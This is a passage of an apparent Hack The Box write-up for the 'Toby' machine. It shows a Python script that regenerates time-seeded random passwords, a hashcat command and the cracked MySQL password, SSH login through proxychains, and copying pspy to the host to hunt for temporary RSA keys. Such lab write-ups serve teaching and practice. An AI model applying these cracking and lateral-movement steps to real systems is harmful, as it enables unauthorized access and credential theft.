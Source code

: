 If credential was added on 07/07/21 and removed on 10/07/2021 which was seeded in epoch format to random. we can also generate all possible password from 07th to 10th of july  

Let's write a python script to quickly do that. 

```
import string
import random

for i in range(1625569999,1625969001):
	chars = string.ascii_letters + string.digits
	random.seed(i)
	password = ''.join([random.choice(chars) for x in range(32)])
	#print(password)
	with open ('password.txt','a+') as f:
		f.write(password+"\n")
```
It loops over all possible epoch time between 7th and 10th of july. Actually 1625569999 is mid of 6th and 1625969001 is mid of 11th. just to be on safe side as there is a time difference of 5 hour and 30 minutes between my time and machine time. It created 399002 password entries. Now using hashcat we can crack it easily.

```
!hashcat/hashcat -m 11200 "\$mysqlna\$293e3e5a2e706d543d7145435f342764466e7831*30e66315818a7c8792c175424b290754eb803c6f" password.txt
``` 

I cracked it on google colab. 
```
$mysqlna$293e3e5a2e706d543d7145435f342764466e7831*30e66315818a7c8792c175424b290754eb803c6f:4DyeEYPgzc7EaML1Y3o0HvQr9Tp9nikC
```
![Screenshot from 2022-04-19 17-09-59](https://user-images.githubusercontent.com/79413473/163995531-ca13e0c2-e951-4069-b64e-d7be79ce69f4.png)

using this password we can try to ssh on different hosts we have. One it worked was **mysql.toby.htb(172.69.0.102)**.

`proxychains ssh jack@172.69.0.102` : `4DyeEYPgzc7EaML1Y3o0HvQr9Tp9nikC`.

![Screenshot from 2022-04-19 21-08-07](https://user-images.githubusercontent.com/79413473/164042019-8f12cdab-53fb-4374-8861-03ef2095a3cb.png)

### Finding jack's ssh-keys

As we are still inside a docker and nothing much is there we can run linpeas and pspy to enumerate processes in container. As even curl is gone from this container we will use scp for this.

`proxychains scp ./pspy64 jack@172.69.0.102:/tmp`

Running this reveals that there is a process running which creates a sqldump of wordpress and transfer it to host machine(172.69.0.1) as backup using temporary RSA keys.

![2022-04-19_21-16](https://user-images.githubusercontent.com/79413473/164043919-1a069ae0-87f2-4c13-bd47-5e05cd1a1c55.png)

Let's try to read this key, i wrote this script and transferred it to system via scp. We could have used a simple while loop to try to read the file but we will get a bunch of *file not exist error on terminal*.
